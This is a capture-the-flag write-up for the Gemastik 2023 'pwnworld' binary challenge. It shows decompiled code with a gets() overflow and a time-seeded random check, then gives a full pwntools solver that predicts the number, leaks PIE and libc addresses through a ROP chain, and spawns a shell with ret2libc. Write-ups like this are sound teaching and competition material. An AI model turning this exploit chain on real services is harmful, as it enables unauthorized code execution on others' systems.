



# My Write Up For Gemastik PWN Challenges

Name Challenges : pwnworld

## Information Gathering
> pwn checksec pwnworld
```
[*] '/mnt/d/CTF/gemastik/2023/pwn/pwn_world/pwnworld'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
> Protection is PIE ( so the memory is random, can't hit a address, leaked the PIEBASE first, NX make shellcode not work, and full RELRO make GOT is secure)

## Disassemble Using Ghidra
```main
undefined8 main(void)

{
  char local_118 [268];
  int local_c;
  
  setup();
  local_c = game();
  if (local_c == 0) {
    printf("You lose! have any feedback for my game? ");
    fgets(local_118,0x100,stdin);
    puts("Thanks for your feedback");
  }
  else {
    printf("Since you win, I will give this to you: %p\n",&gift);
    printf("Any feedback? ");
    gets(local_118);
  }
  puts("See yaa");
  return 0;
}
```
```
undefined4 game(void)

{
  char local_28 [20];
  int local_14;
  int local_10;
  undefined4 local_c;
  
  local_10 = get_random();
  local_c = 0;
  printf("What number would you like to guess? ");
  fgets(local_28,0x10,stdin);
  local_14 = atoi(local_28);
  if (local_14 == 0) {
    puts("Oops that\'s not the number");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (local_14 == local_10) {
    puts("Congrats! You win!");
    local_c = 1;
  }
  else {
    puts("Oops You lose");
  }
  return local_c;
}
```
```
int get_random(void)

{
  int iVar1;
  time_t tVar2;
  
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  iVar1 = rand();
  return iVar1 % 417;
}
```
### Attacking Flow
From the code we know clearly, bypass the random number first, because the random number using null time you can bypass using CDLL alghorithm. After You pass the random number, you will get address that help you for next attacking, my assuming it's given PIE address. Second flow is BOF in gets() func, and cuz nothing function is interest, i will perform RET2LIBC attack. 

### BYPASS RANDOM NUMBER
```python
from pwn import *
from ctypes import CDLL, c_void_p

libcc = CDLL("libc.so.6")

def getRand():
    current_time = libcc.time(0)
    libcc.srand(current_time)
    return libcc.rand() % 417

```


yes given the PIE address, next let's calculate PIEBASE.


next sub leaked address using PIEBASE sub result, yes get the base of PIEBASE. Next get the libc address, i'm using puts func to perform.

```python
pop_rdi = base + 0x00000000000012b5
    ret_address = base + 0x000000000000101a
    info(f'pop_rdi -> {hex(pop_rdi)}')
    puts_got = elf.got['puts']
    puts_plt = elf.plt.puts
    payload = flat(
        b'A' * 280,
        pop_rdi,
        base + puts_got,
        base + puts_plt,
        base + elf.sym['main']
    )
    # pause()
    r.sendlineafter(b'feedback? ', payload)
    r.recvuntil(b'See yaa\n')
    leaked = r.recvline()
    libc_leaked = unpack(leaked.strip().ljust(8, b'\x00'))
    info(f'libc leaked -> {hex(libc_leaked)}')

```




Yes all i need is clearly, so it's my finall solver

```python
#!/usr/bin/env python3
from pwn import *
from ctypes import CDLL, c_void_p

libcc = CDLL("libc.so.6")

def getRand():
    current_time = libcc.time(0)
    libcc.srand(current_time)
    return libcc.rand() % 417

exe = ELF("./pwnworld")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# ld = ELF("./ld-2.37.so")

elf = context.binary = exe
context.log_level = 'DEBUG'


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r

padding = 280
def main():
    r = conn()

    # good luck pwning :)
    info(f'{getRand()}')
    r.sendlineafter(b'? ', f'{getRand()}'.encode())
    # pause()
    r.recvuntil(b'you: ')
    leak = int(r.recvline(), 16)
    base = leak - 0x404c
    pause()
    info(f'leak PIEBASE -> {hex(base)}')
    # pause()
    pop_rdi = base + 0x00000000000012b5
    ret_address = base + 0x000000000000101a
    info(f'pop_rdi -> {hex(pop_rdi)}')
    puts_got = elf.got['puts']
    puts_plt = elf.plt.puts
    payload = flat(
        b'A' * 280,
        pop_rdi,
        base + puts_got,
        base + puts_plt,
        base + elf.sym['main']
    )
    # pause()
    r.sendlineafter(b'feedback? ', payload)
    r.recvuntil(b'See yaa\n')
    leaked = r.recvline()
    libc_leaked = unpack(leaked.strip().ljust(8, b'\x00'))
    info(f'libc leaked -> {hex(libc_leaked)}')
    libc.address = libc_leaked - libc.sym['puts']
    # print(leak)
    info(f'libc puts leaked -> {hex(libc.address)}')
    r.sendlineafter(b'? ', f'{getRand()}'.encode())
    payload2 = flat(
        b'A' * 280,
        pop_rdi,
        next(libc.search(b"/bin/sh\x00")),
        ret_address,
        # ret_address,
        libc.sym.system,
    )
    r.sendlineafter(b'? ', payload2)
     
    # pause()
    # r.recvline()
    r.interactive()


if __name__ == "__main__":
    main()
```

